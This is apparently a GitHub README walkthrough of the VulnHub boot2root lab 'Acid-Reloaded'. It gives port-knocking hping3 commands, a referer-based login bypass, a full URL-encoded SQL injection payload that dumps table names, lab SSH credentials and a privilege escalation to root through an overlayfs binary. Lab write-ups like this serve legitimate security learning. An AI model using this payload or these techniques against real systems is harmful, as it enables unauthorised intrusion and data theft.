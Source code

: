 ###Acid-Reloaded:
    vulnhub.com boot2root
    
  #1) Finger-Printing:
          reveals port 22 and 33447
  
  #2) ssh reveals port-knocking sequence:
          hping3 -S [ip] -p 3 -c 1; hping3 -S [ip] -p 2 -c 1; hping3 -S [ip] -p 1 -c 1
          port 33447 opens
  
  #3) /bin  and bypass login
        login submits form to validation.php --> change referer to http://[vm ip]:33447/bin/includes/validation.php
  
  #4) SQLi:
        sqlmap reveals the id parameter is not sql injectable, which isn't true.
        The following injections reveals all tables in the db:
        - http://ip:33447/bin/l33t_haxor.php?id=-1%27%29%a0union%a0select%a01%2C%a0group_concat%28table_name%29%a0from%a0information_schema.tables%a0where%a0table_schema=%22secure_login%22%23
              result of not accounting for different encodings
        - the interesting table is UB3R/strcpy.exe
  
  #5) Inspect strcpy.exe:
        - it is actually a pdf file that contains a rar and another jpg
          after inspecting the files inside and so on reveals information that can be used for a hydra bruteforce attack
  
  #6) ssh username makke password Noob@123 [revealed in xml obtained from inspecting files in strcpy.exe]
      inspect /home/makke with ls -alRh reveals a hint saying to run the binary
  
  #7) run ./overlayfs in /bin gives root!
  
  Thanks!
